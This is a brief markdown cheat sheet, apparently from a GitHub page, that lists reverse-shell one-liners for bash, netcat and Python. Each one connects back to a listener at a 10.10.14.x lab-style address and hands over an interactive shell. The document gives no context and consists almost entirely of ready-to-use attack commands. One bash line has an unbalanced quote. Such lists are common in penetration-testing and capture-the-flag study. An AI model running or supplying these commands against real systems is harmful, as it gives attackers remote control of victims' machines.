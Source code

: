 # Reverse Shells

----------------------------------------------------


### Bash  
`bash -i >& /dev/tcp/10.10.14.3/4444 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1`

### Netcat  
`nc -e /bin/bash 10.10.14.3 4444`

### Netcat(2)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.39 1234 >/tmp/f`

### Python 
`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`